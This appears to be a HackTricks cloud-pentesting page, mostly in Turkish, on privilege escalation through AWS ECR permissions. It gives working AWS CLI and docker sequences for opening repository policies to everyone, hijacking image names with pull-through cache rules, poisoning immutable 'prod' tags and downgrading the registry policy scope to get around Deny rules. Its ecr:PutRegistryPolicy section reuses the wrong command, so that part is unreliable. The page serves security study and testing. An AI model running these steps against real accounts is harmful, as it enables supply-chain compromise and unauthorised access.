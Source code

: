 # AWS - ECR Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Bir saldırgan, **`ecr:GetAuthorizationToken`** ve **`ecr:BatchGetImage`** izinlerine sahipse ECR'e giriş yapıp imajları indirebilir.

For more info on how to download images:

{{#ref}}
../../aws-post-exploitation/aws-ecr-post-exploitation/README.md
{{#endref}}

**Potansiyel Etki:** Trafikteki hassas bilgileri yakalayarak dolaylı privesc.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Tüm bu izinlere sahip bir saldırgan **ECR'e giriş yapıp imaj yükleyebilir**. Bu, bu imajların kullanıldığı diğer ortamlarda yetki yükseltmek için faydalı olabilir.

To learn how to upload a new image/update one, check:

{{#ref}}
../../aws-services/aws-eks-enum.md
{{#endref}}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Önceki bölümle aynı, ancak public repository'ler için.

### `ecr:SetRepositoryPolicy`

Bu izne sahip bir saldırgan **depo politikasını** değiştirerek kendine (veya herkese) **okuma/yazma erişimi** verebilir.\
Örneğin, bu örnekte okuma erişimi herkese verilmiştir.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` dosyasının içeriği:
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "allow public pull",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Önceki bölümdekine benzer, ancak public repository'ler için.\
Bir saldırgan, yetkisiz halka açık erişim vermek veya ayrıcalıklarını yükseltmek için bir ECR Public repository'sinin **repository policy**'sini değiştirebilir.
```bash
# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
**Potential Impact**: ECR Public repository'ye yetkisiz genel erişim; herhangi bir kullanıcının images push, pull veya delete yapmasına izin verir.

### `ecr:PutRegistryPolicy`

Bu izne sahip bir saldırgan **kayıt defteri politikasını** **değiştirerek**, kendisine, hesabına (veya hatta herkese) **read/write access** verebilir.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{{#include ../../../../banners/hacktricks-training.md}}





### ecr:CreatePullThroughCacheRule

ECR Pull Through Cache (PTC) kurallarını, saldırgan tarafından kontrol edilen bir upstream namespace'i güvenilen bir private ECR önekiyle eşlemek için kötüye kullanın. Bu, private ECR'den çeken iş yüklerinin private ECR'ye herhangi bir push yapılmaksızın şeffaf şekilde saldırgan görüntülerini almasını sağlar.

- Gerekli izinler: ecr:CreatePullThroughCacheRule, ecr:DescribePullThroughCacheRules, ecr:DeletePullThroughCacheRule. Eğer ECR Public upstream kullanılıyorsa: ecr-public:* ile public repoya create/push yapma.
- Tested upstream: public.ecr.aws

Adımlar (örnek):

1. Prepare attacker image in ECR Public
# Get your ECR Public alias with: aws ecr-public describe-registries --region us-east-1
docker login public.ecr.aws/<public_alias>
docker build -t public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test .
docker push public.ecr.aws/<public_alias>/hacktricks-ptc-demo:ptc-test

2. Create the PTC rule in private ECR to map a trusted prefix to the public registry
aws ecr create-pull-through-cache-rule --region us-east-2 --ecr-repository-prefix ptc --upstream-registry-url public.ecr.aws

3. Pull the attacker image via the private ECR path (no push to private ECR was done)
docker login <account_id>.dkr.ecr.us-east-2.amazonaws.com
docker pull <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test
docker run --rm <account_id>.dkr.ecr.us-east-2.amazonaws.com/ptc/<public_alias>/hacktricks-ptc-demo:ptc-test

Potential Impact: Seçilen önek altındaki dahili imaj isimlerini ele geçirerek supply-chain kompromisi. Bu öneki kullanan private ECR'den imaj çeken herhangi bir iş yükü saldırgan kontrollü içerik alacaktır.

### `ecr:PutImageTagMutability`

Bu izni, tag immutability'si olan bir repository'yi mutable hale getirip güvenilen tag'leri (ör. latest, stable, prod) saldırgan kontrollü içerikle üzerine yazmak için kötüye kullanın.

- Gerekli izinler: `ecr:PutImageTagMutability` artı push yetenekleri (`ecr:GetAuthorizationToken`, `ecr:InitiateLayerUpload`, `ecr:UploadLayerPart`, `ecr:CompleteLayerUpload`, `ecr:PutImage`).
- Etki: Tag isimlerini değiştirmeden immutable tag'leri sessizce değiştirerek supply-chain kompromisi.

Adımlar (örnek):

<details>
<summary>Mutability'yi değiştirerek immutable bir tag'i zehirleyin</summary>
```bash
REGION=us-east-1
REPO=ht-immutable-demo-$RANDOM
aws ecr create-repository --region $REGION --repository-name $REPO --image-tag-mutability IMMUTABLE
acct=$(aws sts get-caller-identity --query Account --output text)
aws ecr get-login-password --region $REGION | docker login --username AWS --password-stdin ${acct}.dkr.ecr.${REGION}.amazonaws.com
# Build and push initial trusted tag
printf 'FROM alpine:3.19\nCMD echo V1\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Attempt overwrite while IMMUTABLE (should fail)
printf 'FROM alpine:3.19\nCMD echo V2\n' > Dockerfile && docker build -t ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod . && docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Flip to MUTABLE and overwrite
aws ecr put-image-tag-mutability --region $REGION --repository-name $REPO --image-tag-mutability MUTABLE
docker push ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
# Validate consumers pulling by tag now get the poisoned image (prints V2)
docker run --rm ${acct}.dkr.ecr.${REGION}.amazonaws.com/${REPO}:prod
```
</details>


#### ROOT Pull-Through Cache kuralı ile global registry hijack

Özel `ecrRepositoryPrefix=ROOT` kullanarak Pull-Through Cache (PTC) kuralı oluşturun; bu, private ECR registry'nin kökünü upstream public registry (ör. ECR Public) ile eşler. Private registry'de var olmayan bir repository'ye yapılan herhangi bir pull, upstream'den şeffaf şekilde servis edilir ve private ECR'ye push yapmadan supply-chain hijacking'e olanak tanır.

- Gerekli izinler: `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`, `ecr:GetAuthorizationToken`.
- Etki: `<account>.dkr.ecr.<region>.amazonaws.com/<any-existing-upstream-path>:<tag>` adreslerine yapılan pull'lar başarılı olur ve upstream kaynaklı private repository'ler otomatik olarak oluşturulur.

> Not: `ROOT` kuralları için `--upstream-repository-prefix` belirtmeyin. Belirtirseniz doğrulama hatası oluşur.

<details>
<summary>Demo (us-east-1, upstream public.ecr.aws)</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 1) Create ROOT PTC rule mapping to ECR Public (no upstream prefix)
aws ecr create-pull-through-cache-rule \
--region "$REGION" \
--ecr-repository-prefix ROOT \
--upstream-registry-url public.ecr.aws

# 2) Authenticate to private ECR and pull via root path (triggers caching & auto repo creation)
aws ecr get-login-password --region "$REGION" | docker login --username AWS --password-stdin ${ACCT}.dkr.ecr.${REGION}.amazonaws.com

# Example using an official mirror path hosted in ECR Public
# (public.ecr.aws/docker/library/alpine:latest)
docker pull ${ACCT}.dkr.ecr.${REGION}.amazonaws.com/docker/library/alpine:latest

# 3) Verify repo and image now exist without any push
aws ecr describe-repositories --region "$REGION" \
--query "repositories[?repositoryName==docker/library/alpine]"
aws ecr list-images --region "$REGION" --repository-name docker/library/alpine --filter tagStatus=TAGGED

# 4) Cleanup
aws ecr delete-pull-through-cache-rule --region "$REGION" --ecr-repository-prefix ROOT
aws ecr delete-repository --region "$REGION" --repository-name docker/library/alpine --force || true
```
</details>

### `ecr:PutAccountSetting` (Kayıt defteri politika Deny'larını atlatmak için `REGISTRY_POLICY_SCOPE`'u düşürme)

`ecr:PutAccountSetting`'i kötüye kullanarak kayıt defteri politika kapsamını `V2`'den (politik tüm ECR eylemlerine uygulanır) `V1`'e (politik yalnızca `CreateRepository`, `ReplicateImage`, `BatchImportUpstreamImage`'e uygulanır) geçirebilirsiniz. Eğer kısıtlayıcı bir kayıt defteri politika Deny, `CreatePullThroughCacheRule` gibi eylemleri engelliyorsa, kapsamı `V1`'e düşürmek bu uygulamayı kaldırır ve kimlik-politikası Allows etkili olur.

- Gerekli izinler: `ecr:PutAccountSetting`, `ecr:PutRegistryPolicy`, `ecr:GetRegistryPolicy`, `ecr:CreatePullThroughCacheRule`, `ecr:DescribePullThroughCacheRules`, `ecr:DeletePullThroughCacheRule`.
- Etki: Kayıt defteri politika Deny tarafından daha önce engellenmiş ECR eylemlerini (ör. PTC kuralları oluşturma) geçici olarak kapsamı `V1` yaparak gerçekleştirebilme.

Adımlar (örnek):

<details>
<summary>CreatePullThroughCacheRule üzerinde kayıt defteri politika Deny'sini V1'e geçerek atlatma</summary>
```bash
REGION=us-east-1
ACCT=$(aws sts get-caller-identity --query Account --output text)

# 0) Snapshot current scope/policy (for restore)
aws ecr get-account-setting --name REGISTRY_POLICY_SCOPE --region $REGION || true
aws ecr get-registry-policy --region $REGION > /tmp/orig-registry-policy.json 2>/dev/null || echo '{}' > /tmp/orig-registry-policy.json

# 1) Ensure V2 and set a registry policy Deny for CreatePullThroughCacheRule
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
cat > /tmp/deny-ptc.json <<'JSON'
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "DenyPTCAll",
"Effect": "Deny",
"Principal": "*",
"Action": ["ecr:CreatePullThroughCacheRule"],
"Resource": "*"
}
]
}
JSON
aws ecr put-registry-policy --policy-text file:///tmp/deny-ptc.json --region $REGION

# 2) Attempt to create a PTC rule (should FAIL under V2 due to Deny)
set +e
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws
RC=$?
set -e
if [ "$RC" -eq 0 ]; then echo "UNEXPECTED: rule creation succeeded under V2 deny"; fi

# 3) Downgrade scope to V1 and retry (should SUCCEED now)
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V1 --region $REGION
aws ecr create-pull-through-cache-rule \
--region $REGION \
--ecr-repository-prefix ptc-deny-test \
--upstream-registry-url public.ecr.aws

# 4) Verify rule exists
aws ecr describe-pull-through-cache-rules --region $REGION \
--query "pullThroughCacheRules[?ecrRepositoryPrefix=='ptc-deny-test']"

# 5) Cleanup and restore
aws ecr delete-pull-through-cache-rule --region $REGION --ecr-repository-prefix ptc-deny-test || true
if jq -e '.registryPolicyText' /tmp/orig-registry-policy.json >/dev/null 2>&1; then
jq -r '.registryPolicyText' /tmp/orig-registry-policy.json > /tmp/_orig.txt
aws ecr put-registry-policy --region $REGION --policy-text file:///tmp/_orig.txt
else
aws ecr delete-registry-policy --region $REGION || true
fi
aws ecr put-account-setting --name REGISTRY_POLICY_SCOPE --value V2 --region $REGION
```
</details>
